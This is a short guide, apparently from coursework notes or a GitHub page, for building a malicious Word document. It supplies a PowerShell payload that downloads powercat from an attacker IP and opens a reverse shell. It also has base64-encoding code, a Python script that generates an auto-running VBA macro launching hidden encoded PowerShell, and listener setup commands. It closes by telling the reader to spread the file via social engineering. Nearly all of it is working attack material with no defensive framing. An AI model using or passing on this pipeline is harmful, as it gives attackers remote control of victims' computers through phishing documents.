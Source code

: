 ### Process for generating malicious VBA Macro

1. Start with the following Powershell payload:
```powershell
$payload = "IEX(New-Object System.Net.WebClient).DownloadString('http://<OurIP>/powercat.ps1');powercat -c <OurIP> -p 4444 -e powershell"
```
2. Base64 Encode with Powershell (nb. you _will_ get a different result if you just `echo <payload> | base64` in Bash, use the code below):
```powershell
$b64EncodedPayload = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($payload))
$b64EncodedPayload
```
3. Feed the encoded payload as a command line arg to this Python script:
```python
import sys

print('''Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
''')
payload = f"powershell.exe -nop -w hidden -e {sys.argv[1]}"
n = 50
for i in range(0, len(payload), n):
    print(f'    Str = Str + \"{payload[i:i+n]}\"')
print('\n    CreateObject("Wscript.Shell").Run Str')
print('End Sub')
```
4. With our macro ready spin up a Windows machine that has office on it and create a Word doc with filetype `.doc`. This should be the 1997-2003 flavour. Then navigate to `View -> Macros`. Create a new macro in the file you've created and copy the macro we produced in step 3 into it.
5. If necessary exfiltrate the file via SCP:
```powershell
scp macro.doc kali@<our IP>:/home/kali
```
make sure an SSH server is running on the Kali machine:
```bash
sudo systemctl start ssh
```
6. Before distributing ensure an HTTP server is running in the same directory as a copy of `powercat.ps1`:
```bash
python3 -m http.server 80
```
and finally ensure a netcat listener is waiting for the shell:
```bash
nc -nvlp 4444
```
7. Distribute the payload via social engineering or file upload based vuln.